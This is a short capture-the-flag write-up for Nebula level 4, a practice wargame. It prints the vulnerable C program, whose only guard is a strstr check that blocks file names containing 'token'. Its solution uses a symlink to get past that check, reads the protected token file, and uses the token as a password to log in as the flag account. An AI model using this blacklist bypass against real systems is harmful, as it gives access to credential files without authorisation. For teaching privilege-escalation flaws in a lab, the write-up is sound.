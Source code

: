 .. _nebula04:

.. role:: bash(code)
	  :language: bash

.. role:: c(code)
	  :language: c
		     
Nebula 4
========

Basic Information
-----------------

**Home Page** https://exploit-exercises.com/nebula/level04/

**Source Code**

.. code-block:: c
		#include <stdlib.h>
		#include <unistd.h>
		#include <string.h>
		#include <sys/types.h>
		#include <stdio.h>
		#include <fcntl.h>

		int main(int argc, char **argv, char **envp)
		{
		    char buf[1024];
		    int fd, rc;

		    if(argc == 1) {
		        printf("%s [file to read]\n", argv[0]);
			exit (EXIT_FAILURE);
		    }

		    if(strstr(argv[1], "token") != NULL) {
		        printf("You may not access '%s'\n", argv[1]);
			exit(EXIT_FAILURE);
		    }

		    fd = open(argv[1], O_RDONLY);
		    if(fd == -1) {
		        err(EXIT_FAILURE, "Unable to open %s", argv[1]);
		    }

		    rc = read(fd, buf, sizeof(buf));

		    if(rc == -1) {
		        err(EXIT_FAILURE, "Unable to read fd %d", fd);
		    }

		    write(1, buf, rc);
		}
		
Solution
--------
.. code-block:: bash

   $ ln -s /home/flag04/token Token
   $ /home/flag04/flag04 /home/level04/Token
   ssh flag04@localhost
   
.. note:: Token as password

   :bash:`$getflag`
